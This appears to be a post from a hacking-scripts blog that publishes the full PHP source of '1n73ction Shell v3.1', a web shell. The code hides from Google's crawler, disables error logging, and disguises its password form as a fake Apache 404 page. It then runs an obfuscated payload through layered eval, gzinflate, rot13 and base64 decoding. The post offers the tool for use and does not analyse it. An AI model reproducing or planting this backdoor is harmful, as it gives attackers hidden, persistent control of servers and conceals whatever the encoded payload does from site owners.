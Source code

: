 ```yaml
---
id: 234
title: 1n73ction Shell
author: admin
layout: post
guid: http://hackingscripts.com/?p=234
permalink: /1n73ction-shell/
categories:
  - PHP
tags:
  - 1n73ction
  - PHP
---
```

1n73ction Shell v3.1 by x&#8217;1n73ct

### 1n73ction Shell v3.1 Source Code

{% highlight php %}<?php
/* (1n73ction shell v3.1 by x'1n73ct|default pass:" 1n73ction ") */ 
$auth_pass = "b75d0fe83fb0e1631a47868c279c1c56"; 
$color = "#00ff00"; 
$default_action = 'FilesMan'; 
@define('SELF_PATH', __FILE__); 
if( strpos($_SERVER['HTTP_USER_AGENT'],'Google') !== false ) { 
    header('HTTP/1.0 404 Not Found'); 
    exit; 
} 
@session_start(); 
@error_reporting(0); 
@ini_set('error_log',NULL); 
@ini_set('log_errors',0); 
@ini_set('max_execution_time',0);
@ini_set('output_buffering',0); 
@ini_set('display_errors', 0);
@set_time_limit(0); 
@set_magic_quotes_runtime(0); 
@define('VERSION', '2.1'); 
if( get_magic_quotes_gpc() ) { 
    function stripslashes_array($array) { 
        return is_array($array) ? array_map('stripslashes_array', $array) : stripslashes($array); 
    } 
    $_POST = stripslashes_array($_POST); 
} 
function printLogin() { 
    ?> 
&lt;h1&gt;Not Found&lt;/h1&gt; 
&lt;p&gt;The requested URL was not found on this server.&lt;/p&gt; 
&lt;hr&gt; 
&lt;address&gt;Apache Server at <?=$_SERVER['HTTP_HOST']?> Port 80&lt;/address&gt; 
    &lt;style&gt; 
        input { margin:0;background-color:#fff;border:1px solid #fff; } 
    &lt;/style&gt; 
    &lt;center&gt; 
    &lt;form method=post&gt; 
    &lt;input type=password name=pass&gt; 
    &lt;/form&gt;&lt;/center&gt; 
    <?php 
    exit; 
} 
if( !isset( $_SESSION[md5($_SERVER['HTTP_HOST'])] )) 
    if( empty( $auth_pass ) || 
        ( isset( $_POST['pass'] ) && ( md5($_POST['pass']) == $auth_pass ) ) ) 
        $_SESSION[md5($_SERVER['HTTP_HOST'])] = true; 
    else 
        printLogin();
		@ini_set('output_buffering',0); 
@ini_set('display_errors', 0);
function x($inject){eval("\$z=gz" . "inf" . "la" . "te(s" . "t" . "r_r" . "ot" . "13(ba" . "se" . "6" . "4" . "_" . "d" . "e" . "c" . "o" . "de(st" . "r" . "_" . "r" . "o" . "t" . "13(" . "gzi" . "nf" . "lat" . "e(" . "bas" . "e6" . "4_d" . "ec" . "ode(\$inject))))));eval(\$z);");}
x("DczdFkIwAADgB3Kx4+f4uehiJyJFM0bcjYPKqGbFPH19D/Adch2iLn+Qan8XlupmvkrlMEVX3NtyDS2gc9nTGF4X0yHDKSAFnPHHOkwhFNw5v0XIqMdyAylyc5r0ReRkzlhmX8y5Fizfz5rpiQsaz7jdWXZDUbJdcN2KqfRPLWnrJ6t88P9SpB5TNIws6KCxxSXvo3EugK2kQKNA2M66mLG72/0A");
?>
{% endhighlight %}